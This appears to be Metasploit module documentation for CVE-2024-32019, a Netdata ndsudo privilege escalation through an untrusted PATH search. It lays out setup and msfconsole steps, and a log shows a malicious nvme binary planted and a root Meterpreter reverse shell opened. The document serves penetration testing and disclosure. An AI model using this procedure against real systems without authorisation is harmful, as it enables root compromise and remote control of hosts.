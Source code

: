 ## Vulnerable Application

The `ndsudo` is a tool shipped with Netdata Agent. Versions v1.45.0 and below contain a vulnerability, which allows an attacker to gain privilege escalation using the `ndsudo` binary. The vulnerability is an untrusted search path. When searching for additional binary files, such as `nvme`, an attacker can create a malicious binary with same name and add the directory of this binary into the `$PATH` variable. The `ndsudo` will trust the first occurrence of this binary and execute it.

Installation steps:

1. `sudo apt  install cmake libelf-dev git bison flex build-essential libssl-dev pkg-config liblz4-dev libzstd-dev libbrotli-dev uuid-dev libuv1-dev`
1. `wget https://github.com/netdata/netdata-nightlies/releases/download/v1.45.0-8-nightly/netdata-latest.tar.gz`
1. `gunzip netdata-latest.tar.gz`
1. `tar -xf netdata-latest.tar`
1. `cd netdata-v1.45.0-8-g5803c7766/`
1. `sudo ./netdata-installer.sh`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Receive a session
1. Do: `use exploit/linux/local/ndsudo_cve_2024_32019`
1. Do: `set session [session number]`
1. Do: `run`
1. Get root shell/meterpreter session

## Options


### WritableDir

A path where malicious `nvme` binary will be stored. This path will be later prepended to `$PATH` variable to achieve privilege escalation.

### NdsudoPath

The path to the `ndsudo` binary.


## Scenarios

```
msf exploit(linux/local/ndsudo_cve_2024_32019) > run verbose=true
[*] Started reverse TCP handler on 192.168.3.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable binary detected
[*] Creating malicious file at /tmp/nvme
[*] Writing '/tmp/nvme' (250 bytes) ...
[*] Executing..
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 10.5.134.200
[+] Deleted /tmp/nvme
[*] Meterpreter session 3 opened (192.168.3.7:4444 -> 10.5.134.200:53172) at 2025-08-11 11:05:24 +0200

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.5.134.200
OS           : Ubuntu 20.04 (Linux 5.13.0-1021-oem)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
